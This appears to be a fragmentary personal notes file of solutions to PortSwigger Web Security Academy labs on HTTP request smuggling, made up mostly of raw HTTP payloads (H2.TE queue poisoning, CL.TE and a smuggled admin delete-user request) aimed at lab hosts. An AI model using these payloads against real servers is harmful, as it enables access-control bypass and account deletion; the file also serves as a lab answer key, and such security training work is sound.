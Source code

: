 ```
Content-Length: 63

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost






**this is the solutions - but without the proper lab name link and explanation. sorry early work - to be updated. I am keeping work here so you might draw ideas from payload, even if it is a mess of a writeup... :) **
==========================================================================================================






=====

# H2.TE queue poisoning

POST /x HTTP/2
Host: ac741fef1ecbb9b6c08a249d00ed001b.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: ac741fef1ecbb9b6c08a249d00ed001b.web-security-academy.net






**Victim-sim**

GET /resources/js/tracking.js HTTP/1.1
Host: acde1f821f1afb5ec028f00500350099.web-security-academy.net
Connection: keep-alive



======


**eXpolit CL.TE**


GET /admin HTTP/1.1
Host: acaa1fde1fa8b3bac0cb855100b50051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 0


# =====


```
